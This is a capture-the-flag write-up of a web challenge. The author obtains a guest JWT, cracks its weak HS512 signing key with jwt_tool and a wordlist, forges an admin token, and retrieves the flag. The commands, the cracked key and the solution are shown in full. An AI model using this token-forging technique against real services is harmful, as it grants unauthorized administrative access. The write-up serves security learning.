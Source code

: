 Prompt:
```
Frontend is overrated! API rocks!
```

Visiting the website, we are greeted with a JSON response saying that the 'Authorization header is missing' and that we are not authorized:

![Website](secure-api5.png)

We manage to guess correctly and find the /login endpoint.
$ curl -X POST http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080/login
{"Error":"Missing username or password field."}

We provide the username and password as `guest:guest`, per the landing page's suggestion of using a guest account. This gets us a JWT token we can use to log in as the guest user.
```
$ curl -X POST http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080/login -F "username=guest" -F "password=guest"
{"Token":"Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjIxMDE2NjkyfQ.v63VvzMyJ3o2oPVV72-ikLClsPOCvJzBDoNg4LtWGrjVZKxXWh0JBLOSX-srllbRMuZoj7dl1pGlVYThbE_0NQ"}
```

We will follow the website's suggestion and add in the following `Authorization` header and provide the JWT token, using "Bearer" as the authentication type (since we are dealing with token authentication):
```
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjIxMDE2NjkyfQ.v63VvzMyJ3o2oPVV72-ikLClsPOCvJzBDoNg4LtWGrjVZKxXWh0JBLOSX-srllbRMuZoj7dl1pGlVYThbE_0NQ
```


After setting the Authentication header as described above, we now get a different response from the web server:

![Authenticating as guest](secure-api1.png)

Since we have the guest user's JWT, we can try to attempt to tamper it:
```
$ base64 -d <<< "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjIxMDE2NjkyfQ.v63VvzMyJ3o2oPVV72-ikLClsPOCvJzBDoNg4LtWGrjVZKxXWh0JBLOSX-srllbRMuZoj7dl1pGlVYThbE_0NQ" -i
{"typ":"JWT","alg":"HS512"}{"username":"guest","exp":1621016692}
```

We can attempt to crack the passphrase used to sign the JWT since it is using a weak HMAC HS512 algorithm:
```bash
python3 jwt_tool.py -t http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080/ -rh "Authoriz
ation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjIxMDE4OTUwfQ.TGOKDyPXaFucGbFqzk_tBfXW3KIs4lX
9Bkm5iQnjuZY5IXovjm7kaZ3SRWyoEjDdT9uhKfhC8CIJ1f8CfaHUpQ" -C -d /usr/share/wordlists/rockyou.txt
```

![Cracking the password](secure-api6.png)

We successfully cracked the passphrase! We can now tamper the token and resign it using different values for the JWT token claims.
We will change the `username` claim value to `admin`.
```bash
python3 jwt_tool.py -t http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080/ -rh "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjIxMDE4OTUwfQ.TGOKDyPXaFucGbFqzk_tBfXW3KIs4lX9Bkm5iQnjuZY5IXovjm7kaZ3SRWyoEjDdT9uhKfhC8CIJ1f8CfaHUpQ" -T -S hs512 -p "147852369" -pc username -pv admin
```

![Tampering the token](secure-api4.png)

After the tampering the token and setting the bearer token value in the Authorization header to our new token value, we now get a new response from the webserver from the `/flag` endpoint. The webserver finally provides us with the value of the flag

![Getting the flag](secure-api3.png)

```
{"Message":"Hi, admin! I have a secret for you.","Secret":"dctf{w34k_k3y5_4r3_n0t_0k4y}"}
```

Flag: `dctf{w34k_k3y5_4r3_n0t_0k4y}`
